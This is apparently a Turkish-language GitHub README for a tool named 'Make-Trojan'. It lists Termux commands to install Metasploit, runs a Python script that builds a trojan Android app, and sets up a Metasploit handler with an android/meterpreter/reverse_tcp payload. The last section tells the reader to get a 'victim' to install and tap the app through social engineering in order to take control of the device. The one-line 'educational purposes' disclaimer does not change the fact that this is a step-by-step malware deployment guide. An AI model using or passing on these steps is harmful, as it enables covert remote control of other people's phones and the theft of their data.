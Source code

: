 # Make-Trojan
ÖNCELİKLE:Bu araç eğitim amaçlı hazırlandı.Aracın kullanımda meydana gelicek hiç bir şey sorumluluğumda değildir!
# Metasploit Kurulumu
1. apt update
2. apt upgrade
3. apt-get update
4. apt-get upgrade
5. apt install git
6. apt install wget
7. apt install curl
8. pkg install ruby -y
9. apt install root-depo
10. apt install unstable-repo
11. apt install x11-repo
12. pkg install metasploit -y
# Make-Trojan Kurulumu
1. pkg install python
2. cd Make-Trojan
3. python Make-Trojan.py
# Make-Trojan Kullanımı
Gerekli alanları doldurun ve dosyanın oluşmasını bekleyin
1. msfconsole
2. use exploit/multi/handler
3. set payload android/meterpreter/reverse_tcp
4. set LHOST (ip adresi)
5. set LPORT (port)
6. run
# Make-Trojan Çalıştırma
Cihaza bağlanmak için kurbanımıza uygulamayı sosyal mühendislik yardımıyla yükletip, bir kere tıklamasını sağlamak yeterli olacaktır. Uygulamayı silmesi durumunda cihaza olan bağlantı kesilecektir!
